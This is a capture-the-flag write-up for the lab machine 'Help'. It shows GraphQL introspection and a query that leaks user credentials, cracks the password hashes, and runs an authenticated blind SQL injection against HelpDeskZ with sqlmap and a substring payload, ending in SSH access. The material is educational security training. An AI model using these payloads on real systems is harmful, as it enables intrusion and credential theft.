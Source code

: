 # Help - Second way

There is another way of doing the box. If we check our Nmap scan again we see that there is Node.js on port 3000:

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking Node.js Express framework (Port 3000)

If we browse to the web page on port 300 we get a Node.js API with one message saying:
> message: "Hi Shiv, To get access please find the credentials with given query"

This is a hint to look out for **GraphQL** on the server and we find the path **/graphql** on the page that says:
> GET query missing.

If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
10.10.10.121:3000/graphql?query= {__schema%20{%0atypes%20{%0aname%0akind%0adescription%0afields%20{%0aname%0a}%0a}%0a}%0a}

URL-decoded:
{__schema {
  types {
    name
    kind
    description
    fields {
      name
      }
    }
  }
}
```

We see there is a _User Object_ with two values _username and password_:

![Interesting user objects](https://kyuu-ji.github.io/htb-write-up/help/help_user-objects.png)

If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
{ user {
  username, password
  }
}

URL-encoded:
10.10.10.121:3000/graphql?query={+user+{+username,+password+}+}
```

This gives us the values for username and password:
```json
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

This hash is 32 characters long, so it is probably MD5 and we find it on hashes.org:
> godhelpmeplz

These are credentials for the **ServiceDeskZ** portal that is running on port 80.

## Checking HTTP (Port 80)

There are two vulnerabilites that both work for the version lower than 1.0.2 and we know that the version is exactly that.
- HelpDeskZ 1.0.2 - Arbitrary File Upload
- HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

This time we will use the **Authenticated SQL Injection** because we are authorized with the credentials we found on Node.js.

### SQL Injection exploit

Before we can use this exploit we need to create a ticket with an attachment:

![Creating ticket](https://kyuu-ji.github.io/htb-write-up/help/help_creating-ticket.png)

Sending the location of the attachment to Burpsuite:
```markdown
GET /support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 HTTP/1.1
Host: 10.10.10.121
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=english; PHPSESSID=lq1cfc4t3upb5p4pqcpmftcnb1; usrhash=0Nwx5jIdx%2BP2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ%2FiYFsjV6wVnLIF%2FaNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo%2BF17KMZ44LDq7MJ4o4ZDbx1GAgeVnXUZaVQLevzMj3ugw%3D%3D
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

We will save this request to a file so we can send it to **SQLMap**:
```markdown
sqlmap -r help.req --batch
```

Then we dump the contents of the database:
```markdown
sqlmap -r help.req --dump
```

Here we will find the table named **staff** that is important.

We will write a Python script to automate the process of this SQL Injection, that can be found in this folder named **help-sqli.py**.
```markdown
/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 and substr((select password from staff limit 0,1),0,1) = 'a'
```

Running that script will iterate through every character of the hash of the password of the Administrator. If we let run SQLMap long enough this hash will be found, too.
> d318f44739dced66793b1a603028133a76ae680e

This hash is 40 characters long and thus probably SHA1. On hashes.org we find this hash and the password is:
> Welcome1

Starting a SSH session with the user _help_ and this password works and we have a shell:
```markdown
ssh help@10.10.10.121
```
